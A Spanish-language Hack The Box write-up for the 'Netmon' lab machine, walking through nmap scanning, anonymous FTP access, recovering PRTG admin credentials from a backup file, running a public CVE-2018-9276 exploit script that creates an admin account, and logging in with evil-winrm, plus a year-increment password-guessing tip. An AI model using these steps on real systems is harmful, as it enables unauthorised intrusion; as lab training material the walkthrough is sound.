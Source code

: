 ```yaml
---
title: Writeup netmon - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - netmon
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina netmon en Hack The Box.
keywords:
  - writeup netmon
  - hack the box netmon
  - resolución máquina netmon
  - netmon hack the box
  - htb netmon
---
```

------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Windows/Netmon)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=IcYa_yilycs)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=SKknoNohRa8)

------

#easy #windows #ping #nmap #ftp #CVE-2018-9276 #evil-winrm 

----
# Guided Mode

1)¿Cuál es el nombre de la aplicación que se ejecuta en el puerto 80? Dadas las tres palabras del logotipo.
	PRTG Network Monitor

2)¿Qué servicio se ejecuta en el puerto TCP 21?
	ftp

*La pregunta anterior es la flag de user.txt*
4)¿Cuál es la ruta completa de la carpeta donde PRTG Network Monitor guarda sus archivos de configuración por defecto?
	`C:\ProgramData\Paessler\PRTG Network Monitor`

5)¿Cuál es el nombre del archivo de configuración de copia de seguridad?
	PRTG Configuration.old.bak

6)¿Cuál era la contraseña del usuario prtgadmin según ese archivo?
	PrTg@dmin2018

7)¿Cuál es ahora la contraseña del usuario prtgadmin en el sitio web?
	PrTg@dmin2019

8)¿Qué versión de PRTG está instalada?
	18.1.37.13946

9)¿Con qué usuario se ejecuta este software por defecto? No incluya nada antes de un \
	system
	tasklist /v | findstr PRTG                        [[findstr]] [[tasklist]]
	![[Netmon17.png]]

--------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.152
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.152 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 10.10.10.152 -oN target
```

![[Netmon1.png]]
![[Netmon2.png]]
![[Netmon3.png]]
![[Netmon4.png]]
![[Netmon5.png]]
*TTL:* Maquina windows
*Puertos Relevantes:*
	`21` [[ftp]]
	`80` HTTP
	`445` [[smb]]
	`5985` [[evil-winrm]]
*Datos importantes*
En el servicio de [[ftp]] nos podemos conectar como el usuario anonymous. Y en [[smb]] con el usuario guest

----
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.152
```

![[Netmon6.png]]
No dice que esta corriendo un PRTG-Network-Monitor[18.1.37]

-------
# Intrusion por [[ftp]] user anonymnous

```shell
ftp 10.10.10.152 -p 21
```

![[Netmon7.png]]
![[Netmon8.png]]
Y sacamos la primera flag en el directorio */users/public/desktop/user.txt*


![[Netmon21.png]]

Buscamos por internet, donde se guardan los backups de *PRTG Network Monitor* . La carpeta es `/ProgramData/paessler/PRTG Network Monitor*`
Y ahora vamos al directorio por defecto donde se guardan los backups

![[Netmon12.png]]
Vemos al archivo de backup y lo descargamos `get "PRTG Configuration.old.bak"`

Lo abrimos en nuestra maquina, tiene un contenido muy extenso, pero la informacion relevante es esta en las lineas 141 y 142. Nos otorga las credenciales *prtgadmin:PrTg@dmin2018*

![[Netmon13.png]]

------
# [[CVE-2018-9276]]

Buscamos vulnerabilidades con [[searchsploit]] con el comando ``searchsploit prtg``
![[Netmon19.png]]
Descargamos la siguiente ``searchsploit  -m windows/webapps/46527.sh``
Le damos permiso de ejecucion con `chmod +x 46527.sh` y luego lo ejecutamos

La cookie de sesion la ponemos con el parametro *-c* y la sacamos de la pagina donde ya estamos logeado con las credenciales que sacamos previamente en `http://10.10.10.152/welcome.htm`, pero cambiando la contraseña a *PrTg@dmin2019*
![[Netmon20.png]]
```
./46527.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=e0FDMjQ3RTg0LTc0MzEtNDUyNy1BNzU2LTI0MTZEM0ExM0YwMX0%3D"

```
![[Netmon15.png]]
Este exploit lo que hace es crear un nuevo usuario en el windows, con permisos de administrador, y las credenciales van a ser pentest:P3nT3st!

-----------
## Conexion a la maquina con [[evil-winrm]]
Nos conectamos con esta herramienta por que habiamos visto en el escaneo de nmap que estaba activo el servicio por el puerto 47001
Y ya podemos catear la flag
```
evil-winrm -i 10.10.10.152 -u pentest -p 'P3nT3st!'
```

![[Netmon16.png]]

----------
# Notas
Si una contraseña tiene un año antiguo, probar cambiar la contraseña al año actual, por ejemplo. Si la contraseña dice admin2018, y estamos en el 2019, probar admin2019


---------
# Creditos
[Proyecto github A1vinSmith](https://github.com/A1vinSmith/CVE-2018-9276) Me guio un poco en la parte del CVE